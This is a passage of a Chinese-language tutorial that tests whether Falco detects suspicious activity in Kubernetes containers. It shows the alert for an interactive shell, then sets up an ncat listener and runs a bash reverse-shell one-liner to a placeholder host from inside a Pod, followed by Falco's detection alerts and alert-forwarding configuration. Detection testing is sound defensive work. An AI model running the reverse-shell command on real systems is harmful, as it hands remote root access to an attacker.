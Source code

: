 ### 4.2 Falco 功能测试

#### 4.2.1 Shell 执行验证

在机器 18.161 上安装完成后启动，并通过登录到本机的 Pod 实例中测试：

```bash
# 在另外一个窗口执行 
# docker exec -ti e6a37f5f7c33  /bin/bash -il
# falco 日志中打印以下内容：
11:04:50.016293434: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) shell=bash parent=runc cmdline=bash -il terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)
```

#### 4.2.2 Shell 反弹验证

在来一台攻击的机器上启动 ncat：

```bash
  $ ncat -l -p 10000
  # 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@xxx:/#
```

在上个样例中我们登录的 Pod 中执行一下命令，那么在上述攻击的机器的命令行中就会得到该 Pod 的 shell 权限：

```bash
root@backend-05:/# bash -i >& /dev/tcp/a.b.c.d/10000 0>&1
```

对于这种行为 falco 可以进行检测和发现：

```bash
11:16:41.458470109: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash connection=IPA:58426->IPB:10000 
container_id=e6a37f5f7c33 image=xxx)

11:16:41.458523964: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 pod_name (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)

11:16:41.458525412: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 podname (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)
```

### 4.3 Falco 告警集中化配置

修改配置文件  falco.yaml, IP 地址需要根据自己的地址调整：

```yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
```
